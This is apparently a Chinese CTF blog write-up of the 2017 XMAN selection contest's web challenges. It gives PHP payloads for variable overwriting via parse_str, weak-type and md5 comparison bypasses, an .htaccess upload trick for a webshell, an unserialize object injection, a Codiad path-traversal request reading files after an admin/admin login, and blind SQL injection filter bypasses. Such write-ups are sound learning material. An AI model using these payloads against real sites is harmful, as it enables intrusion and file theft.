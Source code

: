 ```yaml
---
title: 2017 XMAN选拔赛WEB部分 WriteUp
tags:
  - CTF
  - WriteUp
  - php
  - SQL注入
  - 上传
  - 反序列化
  - 文件包含
  - 盲注
date: 2017-07-26 11:10:35
---
```


## variacover
<!-- more -->
```php
<meta charset="utf-8">
<?php
error_reporting(0);
if (empty($_GET['b'])) {
    show_source(__FILE__);
    die();
}else{
    include('flag.php');
$a = "www.XMAN.com";
$b = $_GET['b'];
@parse_str($b);
if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
    echo $flag;
}else{
exit('你的答案不对0.0');
}
}
?>
```
题目直接给了源代码，前几天刚做过的parse_str 变量覆盖漏洞，parse_str会将传入的字符串解析成php变量，这里构造get请求`?b=a[0]=mCDemCDe`，即可拿到flag
`XMAN{A_sTr_covcderd_t3st_you_oW?}`

## urldecode
看题目提示了url编码，hackbar里点了两次urlencode就getflag了
```
http://challenges.xctf.org.cn:7772/?me=%25%35%38%25%34%64%25%34%31%25%34%65
```
flag:`XMAN{UrlDeCode_CooL_yOu_u0D3rSta9D!}`

## upload
这道题是赛后做出来的，前面各种上传都没有成功，后来听人说是`.htaccess上传`，于是学习了一波，上传一个构造过的`.htaccess`文件，就可以指定后缀为`xxxx`的文件解析成php，再上传一个`xxxx后缀`的文件即可getshell，然后菜刀连接拿下flag,`.htaccess`文件如下:

```html
<FilesMatch "xiha">
SetHandler application/x-httpd一php
</FilesMatch>
```

##  unserialize
跟着题目提示 `?code=1 -->flag.php--> help.php`
```php
class FileClass{
    public $filename = 'error.log';

    public function __toString(){
        return file_get_contents($this->filename);
    }
}
```
经典的php反序列化，构造
```
?code=O:9:"FileClass":1:{s:8:"filename";s:8:"flag.php";}
```

即可读取`flag.php`文件,flag:`XMAN{UUNser1AL1Z3_XMAN__0)(0}`

## PHP
`index.php~` 有`index.php`的源代码，

考察的是php几个弱类型还有函数的绕过漏洞，ISCC2017中做过类似的题，所以手快一血了
```php
<?php
$a=0;
$b=0;
$c=0;
if (isset($_GET['aaa']))
{
        $aaa = $_GET['aaa'];
        $aaa=="1"?die("Emmm..."):NULL;
        switch ($aaa)
        {
        case 0:
        case 1:
                $a=1;
                break;
        }
}
$bbb=(array)json_decode(@$_GET['bbb']);
if(is_array($bbb)){
    is_numeric(@$bbb["ccc"])?die("Emmm..."):NULL;
    if(@$bbb["ccc"]){
        ($bbb["ccc"]>2017)?$b=1:NULL;
    }
    if(is_array(@$bbb["ddd"])){
        if(count($bbb["ddd"])!==2 OR !is_array($bbb["ddd"][0])) die("Emmm...");
        $eee = array_search("XMAN", $bbb["ddd"]);
        $eee===false?die("Emmm..."):NULL;
        foreach($bbb["ddd"] as $key=>$val){
            $val==="XMAN"?die("Emmm..."):NULL;
        }
        $c=1;
}
}
if($a && $b && $c){
    include "flag.php";
    echo $flag;
}
?>
```
要让a,b,c三个变量等1才能拿到flag
于是构造`?aaa=0&bbb={"ccc":"2018a","ddd":[[],0]}`
总解一下几个绕过的点：
- `($bbb["ccc"]>2017)`:当`$bbb["ccc"]`为`"2018a"`时会变成`2018`，即可绕过
- `$eee = array_search("XMAN", $bbb["ddd"]);`因为 array_search    函数没有加第三个参数true，所以是弱类型的比较,`XMAN`会变成0,于是构造`"ddd":[[],0]` ,就变成`array_search(0, [[],0]);`返回true

##  download

Codiad的本地文件包含漏洞，比赛的时候一直没包含成功，后来发现是我没登录

弱口令 `admin` `admin`，登陆之后访问
```
http://challenges.xctf.org.cn:7775/components/filemanager/download.php?path=../../../../var/www/flag.txt&amp;amp;type=undefined
```
就能拿到flag，一航大佬挖到了0day还申请了CVE，膜一下

## CTF用户登录

一道坑题，盲注，空格过滤了用`%0a`代替，逗号过滤了用`from for`代替
最后的flag是`ctf_users`中flag用户的密码解`base64`
`XMAN{DO_you_l1ke_sqlmap_sqlmap}`
到很后面才放的hint `flag在ctf_users表里`，我在ctf_flags表里盲注了半天，网速还慢，就很难受。

## Welcome2IRC

irc连接就有flag了，签到题